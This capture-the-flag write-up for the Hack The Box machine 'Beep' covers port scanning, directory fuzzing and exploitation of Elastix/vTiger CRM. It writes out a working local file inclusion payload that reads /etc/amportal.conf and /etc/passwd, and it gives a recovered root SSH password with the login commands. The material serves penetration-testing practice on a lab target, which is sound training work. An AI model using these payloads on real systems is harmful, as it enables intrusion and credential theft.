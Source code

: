 # Beep

**Machine ip:** 10.10.10.7

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.7 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.7`
```
└─$ sudo nmap -n -Pn -sV -sC -p$ports 10.10.10.7
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-08 13:18 +03
WARNING: Duplicate port number(s) specified.  Are you alert enough to be using Nmap?  Have some coffee or Jolt(tm).
Nmap scan report for 10.10.10.7
Host is up (0.11s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING USER RESP-CODES EXPIRE(NEVER) AUTH-RESP-CODE IMPLEMENTATION(Cyrus POP3 server v2) APOP TOP LOGIN-DELAY(0) STLS UIDL
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            790/udp   status
|_  100024  1            793/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: CONDSTORE RENAME OK CHILDREN LISTEXT CATENATE IMAP4rev1 MAILBOX-REFERRALS LIST-SUBSCRIBED X-NETSCAPE NO STARTTLS Completed URLAUTHA0001 ANNOTATEMORE BINARY THREAD=ORDEREDSUBJECT NAMESPACE SORT RIGHTS=kxte IDLE THREAD=REFERENCES UIDPLUS QUOTA LITERAL+ IMAP4 MULTIAPPEND UNSELECT ATOMIC ID SORT=MODSEQ ACL
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2024-01-08T06:21:32+00:00; +5s from scanner time.
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Elastix - Login page
793/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 4s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 389.49 seconds

```

+ Navigate to `https://10.10.10.7/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8826721d-9e43-4f19-a2fb-28bae559dd17)

+ Directory fuzzing:
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.7/ -k
```

```
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.7/ -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.7/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 310] [--> https://10.10.10.7/images/]
/help                 (Status: 301) [Size: 308] [--> https://10.10.10.7/help/]
/themes               (Status: 301) [Size: 310] [--> https://10.10.10.7/themes/]
/modules              (Status: 301) [Size: 311] [--> https://10.10.10.7/modules/]
/mail                 (Status: 301) [Size: 308] [--> https://10.10.10.7/mail/]
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]
/static               (Status: 301) [Size: 310] [--> https://10.10.10.7/static/]
/lang                 (Status: 301) [Size: 308] [--> https://10.10.10.7/lang/]
/var                  (Status: 301) [Size: 307] [--> https://10.10.10.7/var/]
/panel                (Status: 301) [Size: 309] [--> https://10.10.10.7/panel/]
/libs                 (Status: 301) [Size: 308] [--> https://10.10.10.7/libs/]
/recordings           (Status: 301) [Size: 314] [--> https://10.10.10.7/recordings/]
/configs              (Status: 301) [Size: 311] [--> https://10.10.10.7/configs/]
/vtigercrm            (Status: 301) [Size: 313] [--> https://10.10.10.7/vtigercrm/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/837bed63-aab3-4ba3-a404-325c94c17739)

+ `searchsploit elastix`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5a65eb4d-8714-475f-a9f6-9cae506cd456)

+ Navigate to `https://10.10.10.7/vtigercrm/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/03b85b59-667c-43ca-b134-fc772537c2f8)

+ `searchsploit vtiger crm 5.1.0`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a9470a5b-52e2-4d9b-a204-b7bc268f5ce8)




## Exploitation
+ **Elastix 2.2.0 - 'graph.php' Local File Inclusion:** [LFI](https://www.exploit-db.com/exploits/37637)
+ exploit: `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`
+ Navigate to `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/87307089-e37c-4265-8c39-915ac2a57034)

+ Users and passwords identified:
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/352c0043-3abf-48ff-bc04-d930166aa76f)

+ And also try `view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5723c61c-8d7e-429e-862f-e94b5cbede3f)

+ **vTiger CRM 5.1.0 - Local File Inclusion:** [CVE-2012-4867](https://www.exploit-db.com/exploits/18770)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a549bf30-1da5-4ba7-89ae-2534fbe28e5e)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/232fb7bb-6a9f-4c13-851e-329aed2c0c3f)

+ Now there are enumerated users and passwords.

+ Login ssh using `root`:`jEhdIekWmdjE`: `ssh root@10.10.10.7`
+ If meet an error, check [1](https://www.iclarified.com/85252/how-to-fix-no-matching-key-exchange-method-found-on-mac) [2](https://askubuntu.com/questions/836048/ssh-returns-no-matching-host-key-type-found-their-offer-ssh-dss)
+ Login `ssh -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-rsa root@10.10.10.7`




# References & Alternatives:
+ https://vvmlist.github.io/#beep
+ https://0xdf.gitlab.io/2021/02/23/htb-beep.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/beep-writeup-w-o-metasploit
+ https://mertle.medium.com/write-up-htb-beep-9b4159ca3005
+ https://medium.com/@siddharth.singhal1995/hackthebox-walkthrough-beep-5-60e29ad0668a
+ https://www.siberportal.org/red-team/penetration-testing/hack-the-box-beep-cozumu/

